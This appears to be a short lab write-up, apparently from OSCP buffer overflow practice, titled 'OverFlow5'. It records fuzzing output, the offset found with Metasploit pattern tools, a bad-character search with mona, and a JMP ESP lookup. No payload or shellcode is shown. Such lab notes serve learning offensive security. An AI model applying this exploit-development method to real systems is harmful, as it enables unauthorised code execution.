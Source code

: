# OverFlow5
## Offset
```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing crashed at 400 bytes
```

```php
❯ msf-pattern_create -l 400
```

```php
❯ msf-pattern_offset -q 356B4134
[*] Exact match at offset 314
```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F5FA18
!mona bytearray -cpb "\x00\x16"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00EDFA18
!mona bytearray -cpb "\x00\x16\x2f"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0108FA18
!mona bytearray -cpb "\x00\x16\x2f\xf4"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0139FA18
!mona bytearray -cpb "\x00\x16\x2f\xf4\xfd"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F0FA18
```


```php
\x00\x16\x2f\xf4\xfd
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\x16\x2f\xf4\xfd"
```

![20240228172954.png](20240228172954.png)

